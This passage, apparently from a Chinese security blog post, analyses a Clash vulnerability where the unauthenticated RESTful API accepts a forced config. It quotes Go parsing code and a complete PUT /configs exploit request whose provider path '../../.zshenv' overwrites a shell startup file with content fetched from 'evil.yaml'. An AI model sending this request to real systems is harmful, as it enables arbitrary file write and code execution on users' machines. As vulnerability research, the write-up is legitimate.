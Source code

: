 然后再进入到`ParseRawConfig`函数，其中发现`parseProxies`函数。

```go
func ParseRawConfig(rawCfg *RawConfig) (*Config, error) {
	config := &Config{}

	config.Experimental = &rawCfg.Experimental
	config.Profile = &rawCfg.Profile

	general, err := parseGeneral(rawCfg)
	if err != nil {
		return nil, err
	}
	config.General = general

	proxies, providers, err := parseProxies(rawCfg)
	if err != nil {
		return nil, err
	}
	config.Proxies = proxies
	config.Providers = providers

  
  

	return config, nil
}
```

在代码审计分析章节，就是从`parseProxies`函数着手分析，进而分析了parse和initial providers的完整流程，最后得出结论，存在路径穿越漏洞，最终导致任意位置任意文件写入。所以此处也应同样如此，不过不同的是，RESTful API方式无需受害者去手动导入一个恶意的主配置，只要能对Clash触发一个HTTP请求即可。

HTTP报文如下，同时本地提供一个9999端口的Web服务，对外提供evil.yaml文件。

```http
PUT /configs?force=true HTTP/1.1
Host: 127.0.0.1:9090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 326

{"payload":"mixed-port: 7890\nallow-lan: false\nmode: rule\nlog-level: warning\nproxy-providers:\n  provider1:\n    type: http\n    url: 'http://127.0.0.1:9999/evil.yaml'\n    interval: 3600\n    path: ../../.zshenv\n    healthcheck:\n      enable: true\n      interval: 600\n      url: http://www.gstatic.com/generate_204"}
```

[![](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/burp-put-configs.png)
](https://0xf4n9x.github.io/img/post/clash-unauth-force-configs-csrf-rce/burp-put-configs.png)
